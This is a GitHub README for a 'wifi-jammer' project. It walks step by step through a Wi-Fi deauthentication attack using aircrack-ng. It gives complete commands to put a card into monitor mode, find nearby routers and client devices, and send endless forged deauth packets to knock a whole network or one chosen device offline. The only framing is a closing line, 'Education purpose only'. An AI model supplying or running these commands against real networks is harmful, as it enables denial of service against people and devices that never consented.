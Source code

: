 # wifi-jammer
wifi jammer using aircrack-ng without any external wifi adapters. If you looking for an automated script head over to my another repo [here](https://github.com/mtm-x/wifi-jammer-script)
# What is deauth attack
A deauth attack sends forged deauthentication packets from your machine to a client connected to the network you are trying to jam. These packets include fake "sender" addresses that make them appear to the client as if they were sent from the access point themselves. Upon receipt of such packets, most clients disconnect from the network and immediately reconnect.
# Getting started 
Install [aircrack-ng](https://github.com/aircrack-ng/aircrack-ng) on your machine and make sure your wifi card supports monitor mode (your in-build wifi card is enough if it supports monitor mode)

```
sudo apt install aircrack-ng
```

# Jamming
### Monitor Mode
1. type `iwconfig` in your terminal

   ![Screenshot_20240715_183247](https://github.com/user-attachments/assets/d5687b2f-ad30-4eb3-a068-455e6f43dde8)


In this instance, my wireless card is called wlan0.

2. Now run 

```
sudo airmon-ng start wlan0
```
where wlan0 is your network card. This will put your card into monitor mode which allows the card to monitor all traffic on the network.


![2](https://github.com/mtm-x/wifi-jammer/assets/88881685/02ea0b7a-0e36-4273-a1af-f2b22535df48)

as you can see my wifi card is now in monitor mode


3. You will need to run `iwconfig` again because after switching to monitor mode it will change your network card name. In most cases it changes it to mon0 but in mine it’s changed to wlan0mon.

   ![3](https://github.com/mtm-x/wifi-jammer/assets/88881685/db4ac485-2cd4-4b18-92d8-ee8afd7a4408)

4. Now run


   
```
sudo airodump-ng wlan0mon
```


![4](https://github.com/mtm-x/wifi-jammer/assets/88881685/77d64c1c-b02f-489d-84f6-c23a376558d9)

This is every single router in range. Wait for some moments and once you find your target Press `ctrl+c` to stop. Now we just gonna deauth my router named victim.

We want to take note of 2 things here:

    The BSSID (mac address) of the router
    The Channel(CH) of the router


In my case the channel is 4 and copy the corresponding bssid 


5. Now run the following command


```
sudo airodump-ng wlan0mon --bssid [routers BSSID here] -c [routers channel here]
```

-c for channel . 

![5](https://github.com/mtm-x/wifi-jammer/assets/88881685/8df5a9ea-d57e-4339-829f-383b5fe1d267)

now it shows like this. Press `ctrl+c` to stop.

6. now run
```
iwconfig [your wifi card name in monitor mode] channel [routers channel here]
```
   `eg: iwconfig wlan0mon channel 2`

```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] wlan0mon
```


The 0 represents an infinite amount of deauth attacks. If you wanted to only run 5 deauth attacks you’ll change this to 5.


![6](https://github.com/mtm-x/wifi-jammer/assets/88881685/a7fc9438-6c52-4d6a-9048-ee2031cbf268)


Press `ctrl+c` to stop.


Now most of the devices connected to the router 'victim' will be disconnected. Connected devices try to reconnect to the router 'victim' but again it will be disconnected. But some of the devices might not get disconnect from the wifi router( Samsung devices ). In this situations you can just do deauthenticate specific device alone rather then sending deauth packets the whole wifi router. For instance imagine 2 devices connected to the router Victim you can just send deauthentication packets to one device and knock that device from being connected to the router Victim.


For specific device attack just repeat from step 4 and make changes in the final 6th step as follows


```
sudo aireplay-ng --deauth 0 -a [ROUTERS BSSID HERE] -c [DEVICES MAC ADDRESS] wlan0mon
```

Devices mac address can be found under the station coloumn. Bascially all the devices connceted to the wifi router Victim will be shown here. 

![Screenshot_20240715_180618](https://github.com/user-attachments/assets/f7dcb7ba-6850-4aa6-a745-9dfa3050d1c1)



## Managed Mode

After the attack put your wifi card in managed mode in order to use wifi in your pc 

1. Run

```
sudo airmon-ng stop wlan0mon  
```

That's it 

Education purpose only


   






